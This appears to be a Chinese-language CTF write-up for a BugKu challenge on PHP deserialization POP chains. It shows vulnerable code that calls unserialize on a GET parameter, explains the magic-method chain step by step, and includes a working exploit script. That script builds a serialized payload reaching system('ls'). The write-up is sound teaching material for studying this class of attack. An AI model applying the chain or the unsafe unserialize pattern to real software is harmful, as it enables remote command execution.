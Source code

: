 ### PHP POP 链

话不多说，直接上题（BugKu CTF）

![](https://pic1.imgdb.cn/item/67b18c0cd0e0a243d4ffc5a9.jpg)

```
__call() 魔术方法：当调用对象不存在的方法时，会触发该方法

__wakeup() 魔术方法：当对象反序列化时，会触发该方法终止脚本执行

__invoke() 魔术方法：允许对象作为函数被调用

__set() 魔术方法：当给不可访问的属性赋值时会触发

__get() 魔术方法：当访问不可访问的属性时会触发 __destruct

__construct() 构造函数：在对象被实例化后立即执行

__destruct() 魔术方法：当对象生命周期结束时自动触发

__toString() 魔术方法：当对象被当作字符串使用时自动调用
```

```php
<?php
highlight_file(__FILE__);
error_reporting(0);

class Happy{
    private $cmd;
    private $content;

    public function __construct($cmd, $content)
    {
        $this->cmd = $cmd;
        $this->content = $content;
    }

    public function __call($name, $arguments)
    {
        call_user_func($this->cmd, $this->content);
    }

    public function __wakeup()
    {
        die("Wishes can be fulfilled");
    }
}

class Nevv{
    private $happiness;

    public function __invoke()
    {
        return $this->happiness->check();
    }

}

class Rabbit{
    private $aspiration;
    
    public function __set($name,$val){
        return $this->aspiration->family;
    }
}

class Year{
    public $key;
    public $rabbit;

    public function __construct($key)
    {
        $this->key = $key;
    }

    public function firecrackers()
    {
        return $this->rabbit->wish = "allkill QAQ";
    }

    public function __get($name)
    {
        $name = $this->rabbit;
        $name();
    }

    public function __destruct()
    {
        if ($this->key == "happy new year") {
            $this->firecrackers();
        }else{
            print("Welcome 2023!!!!!");
        }
    }
}

if (isset($_GET['pop'])) {
    $a = unserialize($_GET['pop']);
}else {
    echo "过新年啊~过个吉祥年~";
}
?>
```

首先传入 Year 中的 $key="happy new year"

条件成立调用 firecrackers 方法

但 Rabbit 中 wish 不存在，所以调用 get 魔法方法

此时 $name() 对象被当成函数访问，类型实际上是 Rabbit 对象

但 invoke 方法实际上是调用了 Nevv

因为 check() 是个方法不存在，所以调用了 call 方法

$a 和 $b 是两个 Year 对象，$c 是一个 Rabbit 对象

它的构造函数接受 $b（另一个 Year 对象）作为参数

这意味着 Rabbit 对象 $c 会持有 $b 对象

$e 是一个 Happy 对象用于执行系统命令

将 Rabbit 对象 $c 赋值给 $a->rabbit

将 Nevv 对象 $d 赋值给 $b->rabbit

将 Nevv 对象 $d 赋值给 $b->rabbit

Year 对象的 $rabbit 属性会被赋值为 Rabbit 对象

而 Rabbit 对象的 $aspiration 属性会被赋值为 Year 对象，依此类推

```php
<?php
class Happy{
    private $cmd;
    private $content;

    public function __construct($cmd, $content){
        $this->cmd = $cmd;
        $this->content = $content;
    }
}

class Nevv{
    private $happiness;

    public function __construct($happiness){
        $this->happiness=$happiness;
    }
}

class Rabbit{
    private $aspiration;
    
    public function __construct($aspiration){
        $this->aspiration=$aspiration;
    }
}

class Year{
    public $key="happy new year";
    public $rabbit;
}

$b=new Year();
$c=new Rabbit($b);  // Rabbit -> Year

$e=new Happy("system","ls");
$d=new Nevv($e);  // Nevv -> Happy

$a=new Year();
$b->rabbit=$d;  // Year -> Nevv -> (Happy)
$a->rabbit=$c;  // Year -> Rabbit -> (Year -> (Nevv -> (Happy)))

// Year:(__destruct -> firecrackers()) -> Rabbit:(__set) -> Year:(__get) -> Nevv:(__invoke) -> Happy:(__call)

echo urlencode(serialize($a));

```

拿到 flag

![](https://pic1.imgdb.cn/item/67b18d7bd0e0a243d4ffc5ea.jpg)